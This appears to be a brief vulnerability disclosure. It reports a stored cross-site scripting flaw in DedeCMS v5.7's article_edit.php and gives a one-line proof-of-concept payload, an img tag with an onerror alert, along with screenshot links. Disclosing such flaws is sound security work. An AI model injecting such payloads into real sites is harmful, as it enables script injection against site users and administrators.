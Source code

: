 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a cross-site scripting (XSS) vulnerability via the component /dede/article_edit.php

![1](https://github.com/777erp/cms/assets/113673221/3779ede9-8f46-49fa-b9ec-407c4ef89ed5)


poc:
```
<img onerror="alert(1)" src="1" />

```

successed

![2](https://github.com/777erp/cms/assets/113673221/12860644-197d-4344-a933-5bd980ca7e28)
